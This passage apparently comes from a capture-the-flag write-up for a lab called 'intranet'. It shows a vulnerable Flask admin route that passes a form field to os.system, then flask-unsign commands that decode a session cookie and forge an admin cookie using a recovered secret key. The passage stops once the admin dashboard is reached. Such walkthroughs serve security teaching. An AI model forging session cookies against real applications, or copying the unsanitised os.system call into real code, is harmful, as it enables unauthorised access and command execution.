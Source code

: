 <br />

![](/assets/img/thm/intranet/15.png)

**Note:** the secret key is dynamically generated. so it may be different with you.



<br /><br />

**From app.py, we need to send a POST request to `/admin` with a valid admin jwt (logged_in=true and username=admin)**

```python
@app.route("/admin", methods=["GET, POST"])
def admin():
        if not session.get("logged_in"):
                return redirect("/login")
        else:
                if session.get("username") == "admin":

                        if request.method == "POST":
                                os.system(request.form["debug"])
                                return render_template("admin.html")

                        current_ip = request.remote_addr
                        current_time = strftime("%Y-%m-%d %H:%M:%S", gmtime())

                        return render_template("admin.html", current_ip=current_ip, current_time=current_time)
                else:
                        return abort(403)
```



<br /><br />

**Using `flask-unsign`, I signed a new jwt with username=admin to access the admin dashboard** 

```bash
flask-unsign --decode  --cookie eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.ZoV9Gw.NbGDTdlVJWRSNlVpMYvMKYHsdzY


flask-unsign — sign — cookie "{'logged_in': True, 'username': 'admin'}" — secret 'secret_key_257502'
```

<br />



![](/assets/img/thm/intranet/16.png)
